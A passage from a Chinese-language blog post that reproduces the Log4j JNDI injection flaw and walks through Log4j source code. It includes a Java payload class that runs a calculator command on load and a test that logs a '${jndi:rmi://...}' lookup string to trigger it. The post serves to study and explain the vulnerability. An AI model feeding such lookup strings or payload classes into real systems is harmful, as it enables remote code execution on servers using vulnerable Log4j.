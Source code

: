 ExecCalc 类直接放在根目录，不能申请包名，即不能存在 package xxx。声明后编译的 class 文件函数名称会加上包名从而不匹配。参考 [Java 安全-RMI-JNDI 注入](https://reader-l.github.io/2021/01/26/Java%E5%AE%89%E5%85%A8-RMI-JNDI%E6%B3%A8%E5%85%A5/)。

```java
public class ExecCalc {
    static {
        try {
            System.out.println("open a Calculator!");
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

之后启动上面的 Server 类，再执行下面的代码：

```java
@Test
void log4jEvil() {
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.info("${jndi:rmi://127.0.0.1:1099/calc}");
}
```

发现测试用例的控制台输出了 `open a Calculator!` 并启动了计算器。

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214172950.png?x-oss-process=style/yano)

# log4j 漏洞源码分析

只看 `logger.info("${jndi:rmi://127.0.0.1:1099/calc}");` 这段代码，首先会调用到 org.apache.logging.log4j.core.config.LoggerConfig#processLogEvent：

```java
private void processLogEvent(final LogEvent event, final LoggerConfigPredicate predicate) {
    event.setIncludeLocation(isIncludeLocation());
    if (predicate.allow(this)) {
        callAppenders(event);
    }
    logParent(event, predicate);
}
```

其中 LogEvent 结构如下：

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214174231.png)

encode 对应的事件，将 ${param} 里的 param 解析出来，org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender#tryAppend

```java
private void tryAppend(final LogEvent event) {
    if (Constants.ENABLE_DIRECT_ENCODERS) {
        directEncodeEvent(event);
    } else {
        writeByteArrayToManager(event);
    }
}

protected void directEncodeEvent(final LogEvent event) {
    getLayout().encode(event, manager);
    if (this.immediateFlush || event.isEndOfBatch()) {
        manager.flush();
    }
}
```